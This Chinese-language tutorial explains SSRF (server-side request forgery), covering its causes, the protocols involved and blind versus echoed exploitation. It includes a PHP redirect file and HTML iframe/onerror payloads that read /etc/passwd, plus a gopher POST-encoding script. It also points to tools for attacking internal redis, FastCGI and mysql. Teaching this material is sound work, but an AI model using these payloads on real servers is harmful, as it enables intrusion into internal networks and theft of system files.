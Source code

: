 # SSRF

SSRF漏洞，也就是服务端请求伪造，是指攻击者欺骗服务器发起网络请求，可能导致对内部系统、外部服务或本地资源的未授权访问。

## 漏洞成因：

web服务器经常需要从别的服务器获取数据，比如文件载入、图片拉取、图片识别等功能，

如果获取数据的服务器地址可控，攻击者就可以通过web服务器自定义向别的服务器发出请求。

因为web服务器常搭建在DMZ区域，因此常被攻击者当作跳板，向内网服务器发出请求。

> DMZ区域
>
> DMZ（Demilitarized Zone）是网络安全中的一个术语，它指的是位于内部网络和外部网络之间的一个隔离区域。
>
>DMZ提供了一个额外的安全层，用于分离和保护内部网络中的敏感系统和数据免受来自外部网络的攻击。
>
> 在一个典型的网络架构中，DMZ通常位于防火墙内部，同时连接着外部网络和内部网络。
>
> DMZ中放置了一些对外服务，如Web服务器、邮件服务器等。这些对外服务需要与外部网络进行通信，但又不能直接接触内部网络中的敏感系统和数据。

## 协议

ssrf常用的协议：http/https、dict、file、gopher、sftp、ldap、tftp

### http/https

当ssrf限制只能使用http或https协议，可通过Header函数绕过限制。在vps创建一个302.php的文件，根据需求设置协议类

举例

    <?php
    header("Location: file:///etc/passwd");
    ?>
    
    <?php
    header("Location: dict://127.0.0.1:6666/info");
    ?>
    
    <?php
    header("Location: gopher://127.0.0.1:6666/info");
    ?>

### gopher

> Gopher是Internet上非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便将用户从Internet的一处带到另一处。
>
> 但WWW出现以后，就很少使用Gopher了

#### gopher使用限制

    PHP     --write-curlwrappers且php版本至少为5.3
    
    Java    小于JDK1.7
    
    Curl    低版本不支持
    
    Perl    支持
    
    ASP.NET 小于版本3

#### 格式

    gopher://<host>:<port>/<path>_后接TCP数据流
    
> gopher默认端口是70
>
> 如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码

#### 利用gopher协议发送POST请求

脚本举例

    import urllib.parse
    test =\
    """POST / HTTP/1.1
    Host: 127.0.0.1:8000
    Content-Typr: application/x-www-form-urlencoded
    Content-Length: 11
    
    name=xxx
    """  
    #以上内容放置请求包内容，注意后面一定要有回车，回车结尾表示http请求结束
    tmp = urllib.parse.quote(test)
    new = tmp.replace('%0A','%0D%0A')
    result = '_'+new
    print(result)

除了发出HTTP请求外，gopher协议还常被用来攻击内网redis、Zabbix、FastCGI、mysql等服务

利用工具：

    https://github.com/tarunkant/Gopherus

## 利用

所有需要输入url的地方都可以尝试ssrf，将url改成dnslog地址，验证请求IP是否来自web服务器：

* 远程图片拉取
* xls，doc等文件预览
* 头像加载
* 其他网站的访问截图

ssrf漏洞可分为有回显型和无回显型

### 回显型

有回显型ssrf可以直接通过页面加载出目标资产，可先尝试加载http://www.baidu.com 页面确认有ssrf，

如果成功的话，可进一步将百度换成内网IP，通过fuzz扫描内网资产。

#### 场景

##### SVG SSRF

由于 SVG 的功能十分丰富，所以能够处理SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

svg攻击payload

    https://github.com/allanlw/svg-cheatsheet
    
##### 导出功能SSRF

有些网站存在功能，能够将一些将数据分析的表格导出为pdf或者图片，当POST数据包中，以html文件内容作为传输，则这里可能存在ssrf漏洞

我们将html内容修改为

    <svg><iframe src="攻击者服务器ip" width="800" height="850"/></svg>
    
通过攻击者服务器进行302重定向

    <iframe+src=攻击者服务器302重定向的地址">
     
    原理：
    通过header设置Location: file:///etc/passwd
    
常规payload

    <iframe src="file:///etc/password">
    document.location
    <img src=x onerror="document.write(document.location)"/>
    <img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
    <link rel=attachment href="file:///etc/passwd">
    <img src=x onerror=document.write(window.location)>
  

### 无回显型

无回显型ssrf的检测需要先配合dnslog平台，测试dnslog平台能否获取到服务器的访问记录，如果没有对应记录，也可能是服务器不出网造成的，

利用时可以通过请求响应时间判断内网资产是否存在，

然后再利用内网资产漏洞（比如redis以及常见可RCE的web框架）证明漏洞的有效性。

或者可以尝试寻找内网的Confluence, Jenkins等资产，这篇文章是专门介绍bind ssrf利用技巧的，可以作为参考：

    https://github.com/assetnote/blind-ssrf-chains
